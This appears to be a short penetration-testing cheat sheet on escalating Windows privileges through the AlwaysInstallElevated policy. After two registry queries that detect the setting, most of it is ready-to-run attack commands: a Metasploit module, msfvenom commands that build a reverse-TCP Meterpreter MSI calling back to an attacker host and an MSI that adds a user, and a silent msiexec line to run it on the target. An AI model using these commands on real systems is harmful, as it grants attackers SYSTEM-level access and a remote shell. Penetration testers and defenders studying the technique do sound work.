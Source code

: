 # AlwaysInstalEvalated
AlwaysInstallElevated policy is allows a regular user to install a Microsoft Windows Installer Package (MSI) with system privileges.

### Detection
Check if REG_DWORD value is 0x1 in 2 registry
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

### Metasploit
```
use exploit/windows/local/always_install_elevated
```

### Generate .msi file with Msfvenom
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=LOCAL_IP_ADDRESS LPORT=LOCAL_PORT –f msi > evil.msi
```
```
msfvenom -p windows/adduser USER=username PASS=password -f msi > adduser.msi # Add user
```

### Execute .msi file on command line of target system
```
msiexec /quiet /qn /i evil.msi
```
